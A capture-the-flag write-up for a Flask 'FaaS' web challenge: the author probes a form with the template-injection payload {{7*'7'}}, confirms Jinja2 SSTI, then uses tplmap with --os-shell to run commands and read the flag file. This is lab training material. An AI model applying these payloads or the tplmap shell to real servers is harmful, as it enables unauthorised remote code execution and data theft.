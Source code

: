 This was a web challenge with an estimated difficulty of "medium". Other than the difficulty, the only content in the challenge description was a link to the target web server.

Browsing to the web server reveals a page that reads "Welcome to my new FaaS! (Flask as a Service) Please enter the two chemicals you would like to combine: " and then two fields for Chemical One and Chemical Two. Using Burp Suite to intercept this POST request shows that the request and response look like this:

<code>
POST /science HTTP/1.1 <br />  
Host: web3.tamuctf.com <br />  
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0 <br />  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 <br />  
Accept-Language: en-US,en;q=0.5 <br />  
Accept-Encoding: gzip, deflate <br />  
Referer: http://web3.tamuctf.com/ <br />  
Content-Type: application/x-www-form-urlencoded <br />  
Content-Length: 15 <br />  
Connection: close <br />  
Upgrade-Insecure-Requests: 1 <br />  

chem1=a&chem2=b <br />  


HTTP/1.1 200 OK <br />  
Server: nginx/1.15.8 <br />  
Date: Mon, 04 Mar 2019 13:33:53 GMT <br />  
Content-Type: text/html; charset=utf-8 <br />  
Content-Length: 272 <br />  
Connection: close <br />  

\<html>
        \<div style="text-align:center"> <br />  
        \<h3>The result of combining a and b is:\</h3>\</br> <br />  
        \<iframe src="https://giphy.com/embed/AQ2tIhLp4cBa" width="468" height="480" frameBorder="0" class="giphy-embed" allowFullScreen>\</iframe>\</div> <br />  
        \</html>
</code>


Interestingly, user-provided output is reflected in the HTTP response. Given the reference to Flask, this suggested to me the possiblity of a Server-Side Teplate Injection vulnerability. To test for this futher, I made use of <a href="https://portswigger.net/blog/server-side-template-injection">this excellent blog post </a>from Portswigger.

The blog post recommends using a couple different payloads and seeing if they're interpreted by the templating engine before being reflected to the user. One of the recommended payloads is {{7*'7'}}. I sent this data via POST request:

<code>
chem1={{7*'7'}}&chem2={{7*'7'}} <br />  
</code>

The relevant portion of the response was:

<code>
The result of combining 7777777 and 7777777 is: <br />  
</code>

Clearly, my input had been interpreted. This particular response indicates that the Jinja2 templating engine is in use. Rather than try to perform further exploitation by hand, I decided to take the opportunity to experiment with the tool TPLmap, which is an automated exploitation tool for SSTI vulnerabilities, much like SQLmap for SQL injection vulnerabilities. The tool can be found here:
https://github.com/epinna/tplmap

TPLmap has a feature that, after determining an injection point, will provide a pseudo-shell to the user to allow for easy remote code execution. To exploit the SSTI I'd identified, I used this command:

<code>
python tplmap.py -u "http://web3.tamuctf.com/science" -d "chem1=1&chem2=whatever" -e jinja2 --os-shell <br />  
</code>

This provided a shell, which allowed me to view the directory contents and grab the flag:

<code>
[+] Tplmap 0.5 <br />  
    Automatic Server-Side Template Injection Detection and Exploitation Tool <br />  

[+] Testing if POST parameter 'chem1' is injectable <br />  
[+] Jinja2 plugin is testing rendering with tag '{{*}}' <br />  
[+] Jinja2 plugin has confirmed injection with tag '{{*}}' <br />  
[+] Tplmap identified the following injection point: <br />  

  POST parameter: chem1 <br />  
  Engine: Jinja2 <br />  
  Injection: {{*}} <br />  
  Context: text <br />  
  OS: posix-linux2 <br />  
  Technique: render <br />  
  Capabilities: <br />  

   Shell command execution: ok <br />  
   Bind and reverse shell: ok <br />  
   File write: ok <br />  
   File read: ok <br />  
   Code evaluation: ok, python code <br />  

[+] Run commands on the operating system. <br />  
posix-linux2 $ ls <br />  
config.py <br />  
entry.sh <br />  
flag.txt <br />  
requirements.txt <br />  
serve.py <br />  
tamuctf <br />  
posix-linux2 $ cat flag.txt <br />  
gigem{5h3_bl1nd3d_m3_w17h_5c13nc3} <br />  
</code>
